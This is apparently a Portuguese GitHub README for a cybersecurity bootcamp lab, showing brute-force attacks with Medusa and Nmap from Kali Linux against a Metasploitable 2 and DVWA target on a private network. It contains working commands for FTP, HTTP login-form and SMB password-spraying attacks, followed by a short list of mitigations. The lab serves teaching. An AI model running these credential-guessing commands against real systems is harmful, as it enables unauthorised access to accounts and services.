

# Laboratório de Ataques de Força Bruta com Medusa + Kali Linux + Metasploitable 2  
Projeto prático desenvolvido no Bootcamp Santander Cibersegurança – DIO

## Objetivo do Projeto
Este projeto demonstra ataques de força bruta utilizando Kali Linux, Metasploitable 2, DVWA, Nmap e Medusa.

## Arquitetura
- Kali Linux (atacante)
- Metasploitable 2 (vítima)
- Rede Host-Only

## Enumeração
```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```

## Ataque FTP
```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -v 6
```

## Ataque HTTP (DVWA)
```bash
medusa -h 192.168.56.101 \
-M http \
-U users.txt \
-P pass.txt \
-m FORM:"username=^USER^&password=^PASS^&Login=Login" \
-m PATH:"/dvwa/login.php" \
-m DENY-SIGNAL:"Login failed" \
-v 6
```

## Password Spraying SMB
```bash
medusa -h 192.168.56.101 -U smb_users.txt -P smb_pass.txt -M smbnt
```

## Mitigações
- Fail2ban
- Bloqueio de IP
- Políticas de senha forte
- Desativar SMBv1

## Arquivos incluídos
- users.txt  
- pass.txt  
- smb_users.txt  
- smb_pass.txt  
- pasta /images (adicione prints depois)

## 👤 Autor
Ilker Sobrinho
